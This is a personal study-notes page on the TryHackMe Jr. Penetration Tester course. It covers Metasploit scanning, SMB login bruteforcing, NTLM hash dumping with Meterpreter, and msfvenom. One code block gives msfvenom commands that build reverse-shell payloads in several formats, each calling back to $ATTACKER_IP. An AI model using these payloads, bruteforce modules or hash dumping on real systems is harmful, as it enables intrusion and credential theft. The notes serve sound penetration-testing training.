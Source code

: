 # TryHackMe: Jr. Penetration Tester

**author**:: Nathan Acks  
**date**:: 2022-04-14

## Exploitation with Metasploit

### Scanning

Use `search portscan` to display built-in Metasploit port scanners. Note that `msfconsole` needs to be run as root for many scans to work - just like Nmap. That said, in my experience the fancier TCP scans (for example, SYN) don't work over a VPN... So maybe best to stick with Nmap.

Speaking of which, Nmap can also be called internally (like other shell commands).

The `auxiliary/scanner/discovery/udp_sweep` module will probe for common UDP services.

Metasploit has a variety of Samba/CIFS scanners too; use `search scanner/smb` to list them.

NetBIOS = Network Basic Input/Output System

TryHackMe emphasizes the importance of examining the usage of NetBIOS for potential vulnerabilities, though it's a bit light on specifics about what this means in practice.

Use `show advanced` to show additional module options.

The `auxiliary/scanner/http/http_version` module will give you HTTP server version information.

The `auxiliary/scanner/smb/smb_login` module will allow you to bruteforce Samba logins (username and/or password) using a wordlist(s).

* [Using "nmap"](../notes/nmap.md)
* [SAMBA (a.k.a. CIFS) Protocol](../notes/samba.md)
* [TCP SYN Port Scanner - Metasploit](https://www.infosecmatter.com/metasploit-module-library/?mm=auxiliary/scanner/portscan/syn)

### The Metasploit Database

Get basic database status using `db_status`.

Create and delete workspaces (engagements) with `workspace`; use `-a` to add and `-d` to delete. Switch between workspaces using `workspace $NAME`.

Use `db_nmap` to run Nmap (all of the regular options work) and dump the results into the Metasploit database.

The `hosts` and `services` commands can then be used to display the, well, hosts and services logged by Metasploit during an engagement. Both commands support an `-S` search parameter, the results of which can then be added to `RHOSTS` using the `-R` parameter.

### Exploitation

Show the payloads available for a particular exploit using `show payloads`. Use `set payload` to set the payload for the exploit; re-run `show options` after this to check if the payload has added any additional options that will need to be set before exploitation.

To dump NTLM hashes from Meterpreter, use the `hashdump` command. Normally only the first four fields are relevant:

* Username
* RID (the last four digits of the Windows SID, with leading zeros dropped)
* The user's LM password hash
* The user's NTLM password hash

Use `sessions` to, well, manage your sessions (most useful when you've backgrounded a payload and/or are working with multiple targets).

* [Dumping Windows Password Hashes Using Metasploit](https://www.utc.edu/sites/default/files/2021-04/4660-lab6.pdf)
* [Windows Password Hashes](../notes/windows-password-hashes.md)

### Msfvenom

Msfvenom is a tool to create custom versions of Metasploit payloads, encoded into a variety of different binary formats and scripts.

Use `--list formats` to see available encoding formats.

```bash
# 32-bit Linux ELF Meterpreter payload
#
msfvenom -p linux/x86/meterpreter/reverse_tcp \
LHOST=$ATTACKER_IP LPORT=$ATTACKER_PORT -f elf > rev_shell

# 32-bit Windows executable Meterpreter payload
#
msfvenom -p windows/meterpreter/reverse_tcp \
LHOST=$ATTACKER_IP LPORT=$ATTACKER_PORT -f exe > rev_shell.exe

# PHP Meterpreter payload
#
msfvenom -p php/meterpreter_reverse_tcp \
LHOST=$ATTACKER_IP LPORT=$ATTACKER_PORT -f raw > rev_shell.php

# ASP Meterpreter payload
#
msfvenom -p windows/meterpreter/reverse_tcp \
LHOST=$ATTACKER_IP LPORT=$ATTACKER_PORT -f asp > rev_shell.asp

# Python Meterpreter payload
#
msfvenom -p cmd/unix/reverse_python \
LHOST=$ATTACKER_IP LPORT=$ATTACKER_PORT -f raw > rev_shell.py
```

Use the `exploit/multi/handler` module in Metasploit to catch the shells produced using Msfvenom (note that you'll need to use `set payload` to tell Metasploit *what* it's catching!). We can catch both regular reverse shells and Meterpreter sessions this way.
